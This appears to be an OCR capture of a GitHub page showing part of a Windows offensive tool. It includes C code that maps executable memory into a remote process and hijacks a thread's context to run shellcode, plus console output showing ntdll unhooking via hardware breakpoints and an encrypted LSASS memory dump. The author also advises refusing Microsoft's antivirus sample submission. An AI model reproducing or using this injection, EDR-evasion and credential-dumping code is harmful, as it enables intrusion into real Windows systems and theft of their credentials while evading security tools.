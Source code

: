```
		ntHandle,
		&hRemoteAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;

	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register in the context
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the main thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread (you can use NtResumeThread if needed)
	ntResumeThread(ntThread, NULL);
	
	// Clean up injected process
	if(hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
 	RtlDestroyProcessParameters(ProcessParameters);

	// Close Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

Upon testing execution Microsoft asks to send this file for submission, please deny this.

```
C:\Users\administrator1\Desktop>.\NtCreateUserProcess.exe
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFC875DAE00
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFC875A0000
[+] Unhooked

C:\Users\administrator1\Desktop>dir
 Volume in drive C is Windows
 Volume Serial Number is 98FF-9D7F

 Directory of C:\Users\administrator1\Desktop

09/13/2023  11:49 AM    <DIR>          .
09/13/2023  10:10 AM    <DIR>          ..
09/13/2023  11:49 AM        48,420,362 LSASS_ENCRYPTED.DMP
09/13/2023  10:29 AM            22,016 NtCreateUserProcess.exe
09/12/2023  10:47 AM        25,355,496 VC_redist.x64.exe
               3 File(s)     73,797,874 bytes
               2 Dir(s)  116,271,603,712 bytes free
```


[+]: Shellcode located at c7160